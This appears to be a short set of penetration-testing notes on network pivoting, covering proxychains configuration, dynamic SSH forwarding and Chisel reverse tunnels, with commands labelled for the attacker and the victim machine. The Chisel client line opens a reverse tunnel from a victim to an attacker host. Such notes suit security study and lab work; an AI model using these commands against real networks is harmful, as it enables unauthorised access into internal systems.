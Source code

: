 ﻿
### **Proxychains**:
1. Edit **last** **line** for */etc/proxychains4.conf*
2. **Add socks4** proxy for localhost and desired port
3. **Dynamic** **SSH Forwarding**:
a. ssh -NfD [desired_port] user@middle_machine

### **Chisel**:
1. **From attacker:**
a. chisel server -p 8000 --reverse
2. **From victim:**
a. chisel client attacking_ip:8000 R:listening_port:victim_ip:target_port


